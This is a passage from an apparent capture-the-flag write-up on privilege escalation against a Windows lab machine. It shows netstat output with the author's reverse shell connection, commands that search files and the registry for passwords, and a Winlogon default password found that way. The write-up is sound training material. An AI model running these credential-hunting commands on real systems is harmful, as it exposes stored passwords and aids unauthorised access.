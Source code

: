 ```
*Remote Desktop Users
*Replicator
*Users
The command completed successfully.
```
- `netstat -ano`
```
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       664
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       356
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       716
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       904
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       456
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       1032
  TCP    0.0.0.0:49157          0.0.0.0:0              LISTENING       464
  TCP    10.10.10.74:139        0.0.0.0:0              LISTENING       4
  TCP    10.10.10.74:9255       0.0.0.0:0              LISTENING       3100
  TCP    10.10.10.74:9256       0.0.0.0:0              LISTENING       3100
  TCP    10.10.10.74:49158      10.10.14.4:1234        ESTABLISHED     3100
  TCP    [::]:135               [::]:0                 LISTENING       664
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       356
  TCP    [::]:49153             [::]:0                 LISTENING       716
  TCP    [::]:49154             [::]:0                 LISTENING       904
  TCP    [::]:49155             [::]:0                 LISTENING       456
  TCP    [::]:49156             [::]:0                 LISTENING       1032
  TCP    [::]:49157             [::]:0                 LISTENING       464
  UDP    0.0.0.0:123            *:*                                    872
  UDP    0.0.0.0:500            *:*                                    904
  UDP    0.0.0.0:4500           *:*                                    904
  UDP    0.0.0.0:5355           *:*                                    1104
  UDP    10.10.10.74:137        *:*                                    4
  UDP    10.10.10.74:138        *:*                                    4
  UDP    10.10.10.74:1900       *:*                                    3384
  UDP    10.10.10.74:9256       *:*                                    3100
  UDP    10.10.10.74:59445      *:*                                    3384
  UDP    127.0.0.1:1900         *:*                                    3384
  UDP    127.0.0.1:59446        *:*                                    3384
  UDP    [::]:123               *:*                                    872
  UDP    [::]:500               *:*                                    904
  UDP    [::]:4500              *:*                                    904
  UDP    [::1]:1900             *:*                                    3384
  UDP    [::1]:59444            *:*                                    3384
```
  - The established connection is my reverse shell
  - On the top we see some local port that open including 445 which is smb so a share might be available locally
- Let's check for passwords using this `findstr /si password *.txt *.ini *.config *.sql` - we do not seem to get anything
- Let's try with the registry `reg query HKLM /f password /t REG_SZ /s` We get something interesting, we have a default password!
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    Welcome1!
```
- Let's check winlogon further
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    ReportBootOk    REG_SZ    1
```